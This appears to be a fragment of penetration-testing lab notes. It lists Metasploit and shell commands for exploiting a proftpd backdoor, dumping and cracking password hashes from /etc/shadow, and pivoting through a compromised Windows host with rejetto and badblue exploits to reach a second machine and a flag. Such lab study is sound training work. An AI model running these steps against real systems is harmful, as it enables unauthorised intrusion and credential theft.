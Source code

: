             **Linux**
            
            - `nmap -sV 192.22.107.3`
            - `service postgresql start && msfconsole -q`
            - Exploit proftpd backdoor
            - `/bin/bash -i`
            - `cat /etc/shadow`
            - `use post/linux/gather/hashdump`
            - `john --format=sha512crypt /root/.msf4/loot/20230429153134_default_192.22.107.3_linux.hashes_083080.txt --wordlist=/usr/share/wordlists/rockyou.txt`
            - `hashcat -a 3 -m 1800 /root/.msf4/loot/20230429153134_default_192.22.107.3_linux.hashes_083080.txt /usr/share/wordlists/rockyou.txt`
        - Pivoting
            
            - `service postgresql start && msfconsole`
            - `workspace -a Pivoting`
            - `db_nmap -sV -p- -O <Victim1IP>`
            - `services`
            - `search rejetto`
            - `use exploit/windows/http/rejetto_hfs_exec`
            - `show options`
            - `set rhosts <Victim1IP>`
            - `run`
            - Got Meterpreter session
            - `sysinfo`
            - `getuid`
            - `ipconfig`
            - `run autoroute -s <Victim2IP/24>`
            - run this in background
            - `background`
            - rename the session 1 meterpreter
            - `sessions -n victim1 -i 1`
            - `sessions`
            - Now portscan
            - `search portscan`
            - `use auxiliary/scanner/portscan/tcp`
            - `show options`
            - `set rhosts Victim2iP`
            - `exploit`
            - Port 80 open port found on victim2
            - Now go to session in metereter
            - `sessions 1`
            - `portfwd add -l 1234 -p 80 -r <Victim2IP>`
            - Now again put this session in background
            - `background`
            - `db_nmap -sV -sS -p 1234 localhost`
            - `search badblue`
            - `use exploit/windows/http/badblue_passthru`
            - `show options`
            - `set payload windows/meterpreter/bind_tcp`
            - `set rhosts <Victim2IP>`
            - `set LPORT 4433`
            - `run`
            - got meterpreter session
            - Observe that this is 2016 and old is 2012
            - get flag
- Web Application Penetration Testing
    